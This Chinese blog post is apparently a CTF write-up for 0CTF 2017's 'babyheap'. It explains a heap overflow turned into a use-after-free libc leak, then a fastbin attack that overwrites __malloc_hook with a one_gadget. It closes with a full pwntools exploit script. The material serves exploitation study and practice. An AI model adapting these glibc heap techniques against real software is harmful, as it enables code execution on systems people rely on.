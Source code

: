 ```yaml
---
title: 0ctf2017-babyheap
authorId: hac425
tags:
  - fastbin attack
  - uaf
  - ''
categories:
  - ctf
date: 2017-12-18 19:46:00
---
```

### 前言

又是一道令人怀疑人生的 `baby` 题。

这道题利用思路非常巧妙,通过 `堆溢出` 和 `fastbin` 的机制构造了 `information leak`, 然后通过 `fastbin attack` 可以读写 `malloc_hook` , 然后使用 `one_gadget` 来 `getshell`.

题目和 idb 文件：https://gitee.com/hac425/blog_data/tree/master/babyheap


### 正文


程序涉及的结构体 `info` 的结构如下，可以通过 `allocate` 功能逆出来
![paste image](http://oy9h5q2k4.bkt.clouddn.com/151359802954748asgou8.png?imageslim)


程序首先 `mmap` 了一个 随机的地址，用于存放 `info table`（就是存储`info`的数组）.
![paste image](http://oy9h5q2k4.bkt.clouddn.com/151359791301977g5486x.png?imageslim)

程序的漏洞在于，在 `allocate` 时程序根据我们的输入 分配 `size` （size < 0x1000）大小的块。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513598177039adb3rvos.png?imageslim)

然而 在 `fill` 我们可以写入任意大小的数据

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513600309457yh3juekn.png?imageslim)

经典的堆溢出。

问题在于，程序保护全开，而且 `info table`  的地址还是随机的，而且分配内存时，用的时 `calloc` 会把内存初始化为0。 所以常用的 `大chunk包含小chunk` 的信息泄露方式没法使用。

这里通过将 `堆溢出` 转换为  `uaf` 来进行信息泄露。


首先分配 多个 `chunk`

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15136011014075wn0qsjc.png?imageslim)

然后释放 偏移为 `1,3`的块，它们会进入 `fastbin`,然后通过部分溢出`chunk 2` 使得下面那个 `fastbin` 的 `fd` 指向下面那个大的块，然后溢出 `chunk 4` 修改其大小为 `0x21` 来 `bypass` 掉 `fastbin` 分配的 `check`

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513601149909iwlr22xb.png?imageslim)

然后分配两次我们就能再次拿到这个 大的 `chunk`, 代码如下

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513601356365qsp2ooav.png?imageslim)
因为此时我们还没有得到任何 地址，不过各个 `chunk` 的相对偏移应该是固定的，只要内存的分配顺序，大小没有变化，所以我们可以通过修改 `fd` 的低字节(小端字节序）就能 使 `fd` 指向我们的 `大chunk`。

此时我们在把 `大chunk`的 `size` 修复，然后 用 `free` 刚刚分配的 `info`，它就会进入 `unsorted bin` ,此时在 `chunk+0x10` 处就有了 `main_arean` 的地址 （`unsorted bin`的 指针），然后用另外一个 `info` 打印内容即可 `leak`.

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15136016779927ug8wun3.png?imageslim)

费劲千辛万苦我们终于拿到了 `libc` 的地址，对于这种全开的一般想到的就是修改 `__malloc_hook` 或者 `__free_hook`, 问题来了，怎么修改。

又是一种新的思路。我们可以在 `__malloc_hook` 附近找到合适的位置，进行 `fastbin attack`. 

```
x/4gx (long long)(&main_arena)-0x40+0xd
```

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15136019955895srgx1x3.png?imageslim)
如果以这里为一个 `chunk` ，这个 `chunk` 应该被放到 `0x70` 大小的 `fastbin` 里面。所以接下来的利用思路就是，构造一个 `0x70` 大小的 `fastbin` , 然后溢出修改 `fd` 到这个 `chunk` ,分配两次我们就能读写 `__malloc_hook`了，修改它为 `one_gadget`即可。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15136025454127tpb4ti1.png?imageslim)
还有一个小 `tips` ，之前 `uaf` 的时候还有一块 `0x110` 的 `chunk` 在 `unsorted bin`, 所以我们需要先把这块内存给分配掉，然后在 进行布局。


### 最后

`one_gadget` 一个一个试，与寄存器和内存数据的状态有关。利用 `main_arean` 的数据进行 `fastbin attack` 这个 思路强悍。



**参考**

http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html

**exp**

```
from pwn import *
from time import sleep

# x/4gx (long long)(&main_arena)-0x40+0xd

def allocate(size):
	p.recvuntil("Command:")
	p.sendline("1")
	p.recvuntil("Size:")
	p.sendline(str(size))
	sleep(0.1)



def fill(index, content):
	p.recvuntil("Command:")
	p.sendline("2")
	p.recvuntil("Index:")
	p.sendline(str(index))
	p.recvuntil("Size:")
	p.sendline(str(len(content)))
	p.recvuntil("Content:")
	p.send(content)
	sleep(0.1)


def free(index):
	p.recvuntil("Command:")
	p.sendline("3")
	p.recvuntil("Index:")
	p.sendline(str(index))
	sleep(0.1)


def dump(index):
	p.recvuntil("Command:")
	p.sendline("4")
	p.recvuntil("Index:")
	p.sendline(str(index))
	p.recvuntil("Content: \n")



p = process("./0ctfbabyheap")


gdb.attach(p,'''

c

	''')

pause()
allocate(0x10)  # 0
allocate(0x10)	# 1
allocate(0x10)	# 2
allocate(0x10)	# 3
allocate(0x10)	# 4
allocate(0x100)	# 5
allocate(0x10)  # 6
allocate(0x10)  # 7

log.info("allocat some chunk, large in chunk 5")
pause()

free(1)
free(3)

log.info("free 1, 3")
#pause()

payload = "A" *0x10
payload += p64(0)
payload += p64(0x0000000000000021)
payload += "\xa0"
fill(2, payload)
log.info("modify chunk 3 's fastbin ptr, to 0xa0")
#pause()


payload = "A" *0x10
payload += p64(0)
payload += p64(0x0000000000000021)
fill(4, payload)

log.info("modify chunk 5 's size to 0x21 for bypass check")
#pause()

allocate(0x10)  # 1
allocate(0x10)  # 3, get large bin

log.info("now allocate 2 chunk to get the large bin")
#pause()

payload = "A" *0x10
payload += p64(0)
payload += p64(0x00000000000000111)
fill(4, payload)

log.info("resume large chunk size")
#pause()


free(3)
log.info("free the large bin, and our chunk 5 in unsorted bin")
#pause()

dump(5)

addr = u64(p.recv(8))
libc = addr - 0x3c4b78
one_gadget = libc + 0x4526a
log.info("libc: " + hex(libc))
log.info("one_gadget: " + hex(one_gadget))
#pause()


allocate(0x100) # 3

allocate(0x60) # 8
free(8)
payload = "A" *0x10
payload += p64(0)
payload += p64(0x0000000000000071)
payload += p64(libc + 0x3c4aed)   # fake fastbin 0x70 size
fill(7, payload)
log.info("fake fastbin")
#pause()

allocate(0x60) # 8
allocate(0x60) # 9

log.info("now chunk 9 on " + hex(libc + 0x3c4aed))

payload = "A" * 19
payload += p64(one_gadget)  # modify malloc hook
fill(9, payload)

allocate(0x10)

p.interactive()

```